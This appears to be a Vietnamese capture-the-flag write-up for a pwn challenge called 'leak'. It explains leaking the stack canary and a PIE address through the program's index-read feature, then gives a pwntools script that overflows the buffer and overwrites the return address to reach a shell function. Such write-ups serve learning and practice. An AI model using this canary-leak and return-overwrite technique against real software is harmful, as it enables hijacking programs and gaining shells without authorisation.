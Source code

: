

Các option protected đều được bật,... chà hơi gian nan đây, vậy công việc của chúng ta là phải leak đc canary và pie thì may ra mới có thể giải bài này. Nhưng leak bằng cách nào đây ???

may sao code có chức năng cho chúng ta thấy giá trị ở vị trí chúng ta nhập trong stack, vậy thì quá hay, chúng ta chỉ cần tìm ra các offset nữa thôi.



Lúc này đây thì gdb lên ngôi nhé, dựa vào kỹ năng dùng gdb thượng thừa vjproo gì đó thì chúng ta suy ra được offset của canary = 48, pie = 32 :D ảo ma canada qá nhỉ 

Nhưng thật ra các bạn phải debug gdb nhiều mới thấy được sự huyền diệu của nó :|



```
from pwn import *

BIN = "./leak"

# canary 48 
#libc main 64

def leakcanary():
    off = 48
    res = b''
    for i in range(8):
        print(io.recv())
        io.sendline('1')
        print(io.recvuntil('vi tri: '))
        io.sendline(str(off+i))
        print(io.recvuntil('Gia tri cho ban: '))
        res += io.recv(1)
        print(io.recvuntil('vi tri: '))
        io.sendline(str(1))
        print(io.recv())
        io.sendline(str(1))
    return u64(res)

def leakpie():
    off = 32
    res = b''
    for i in range(8):
        print(io.recv())
        io.sendline('1')
        print(io.recvuntil('vi tri: '))
        io.sendline(str(off+i))
        print(io.recvuntil('Gia tri cho ban: '))
        res += io.recv(1)
        print(io.recvuntil('vi tri: '))
        io.sendline(str(1))
        print(io.recv())
        io.sendline(str(1))
    return u64(res) - 793



def exploit():
	canary = leakcanary()
	shelladdr = leakpie() + 1

	print(io.recv())
	io.sendline('2')
	payload = b'A'*136 + p64(canary)*2 + p64(shelladdr)
	print(io.recv())
	io.sendline(payload)
```